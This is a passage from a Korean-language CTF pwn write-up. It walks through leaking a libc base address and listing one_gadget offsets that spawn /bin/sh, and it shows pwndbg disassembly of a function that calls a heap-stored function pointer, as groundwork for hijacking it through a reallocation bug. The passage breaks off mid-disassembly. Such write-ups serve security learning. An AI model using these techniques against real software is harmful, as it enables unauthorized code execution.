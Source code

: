 `sendline`이 아니라 `send`를 통해서 보내므로 개행 문자없이 `0x7ffff7dcdc--` 가 나올 것이고,    
`B`에 해당하는 `0x42`를 `0x3ebca0`에 넣어서 `0x3ebc42`를 빼주면 `libc_base`가 나온다.   

![image (18)](https://github.com/user-attachments/assets/232b5b1f-a5b1-4a8c-b842-6e302e17fa72)


이렇게 `0x~~000` 형태의 베이스 주소를 얻었다. (리눅스 페이지 크기 **=** `0x1000` 바이트)   

여기까지 나가고나니 ROP 체인을 굳이 짜줄 필요가 없다는 것을 알았다.  
libc 버전도 정확하게 알고있고, case 2번에서는 재할당에서의 취약점을 통해 case 1번에 미리 입력해둔 주소로 옮길 수 있으니 그냥 원가젯을 먼저 찾아보기로 했다.  

그럼 이제 원가젯을 찾아보자  

<br>

![image](https://github.com/user-attachments/assets/2277424e-2d47-4235-8656-d4ef0b3d709f)


<br>

```bash
constraints:
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c        execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

이렇게 원가젯들을 볼 수 있고,    

`robot_func`를 보면서 원가젯을 사용할 수 있을지 판단해보자.   

```nasm
pwndbg> disass robot_func
Dump of assembler code for function robot_func:
   0x00005555554009f2 <+0>:     push   rbp
   0x00005555554009f3 <+1>:     mov    rbp,rsp
   0x00005555554009f6 <+4>:     mov    edi,0x20
   0x00005555554009fb <+9>:     call   0x5555554007b0 <malloc@plt>
   0x0000555555400a00 <+14>:    mov    QWORD PTR [rip+0x201649],rax        # 0x555555602050 <robot>
   0x0000555555400a07 <+21>:    mov    rax,QWORD PTR [rip+0x201642]        # 0x555555602050 <robot>
   0x0000555555400a0e <+28>:    mov    DWORD PTR [rax],0x6f626f52
   0x0000555555400a14 <+34>:    mov    WORD PTR [rax+0x4],0x74
   0x0000555555400a1a <+40>:    lea    rdi,[rip+0x3ce]        # 0x555555400def
   0x0000555555400a21 <+47>:    mov    eax,0x0
   0x0000555555400a26 <+52>:    call   0x555555400790 <printf@plt>
   0x0000555555400a2b <+57>:    mov    rax,QWORD PTR [rip+0x20161e]        # 0x555555602050 <robot>
   0x0000555555400a32 <+64>:    add    rax,0x10
   0x0000555555400a36 <+68>:    mov    rsi,rax
   0x0000555555400a39 <+71>:    lea    rdi,[rip+0x39c]        # 0x555555400ddc
   0x0000555555400a40 <+78>:    mov    eax,0x0
   0x0000555555400a45 <+83>:    call   0x5555554007d0 <__isoc99_scanf@plt>
   0x0000555555400a4a <+88>:    mov    rax,QWORD PTR [rip+0x2015ff]        # 0x555555602050 <robot>
   0x0000555555400a51 <+95>:    mov    rax,QWORD PTR [rax+0x18]
   0x0000555555400a55 <+99>:    test   rax,rax
   0x0000555555400a58 <+102>:   je     0x555555400a6e <robot_func+124>
   0x0000555555400a5a <+104>:   mov    rax,QWORD PTR [rip+0x2015ef]        # 0x555555602050 <robot>
   0x0000555555400a61 <+111>:   mov    rdx,QWORD PTR [rax+0x18]
   0x0000555555400a65 <+115>:   mov    eax,0x0
   0x0000555555400a6a <+120>:   call   rdx
   0x0000555555400a6c <+122>:   jmp    0x555555400a80 <robot_func+142>
   0x0000555555400a6e <+124>:   mov    rax,QWORD PTR [rip+0x2015db]        # 0x555555602050 <robot>
   0x0000555555400a75 <+131>:   lea    rdx,[rip+0xfffffffffffffe7e]        # 0x5555554008fa <print_name>
```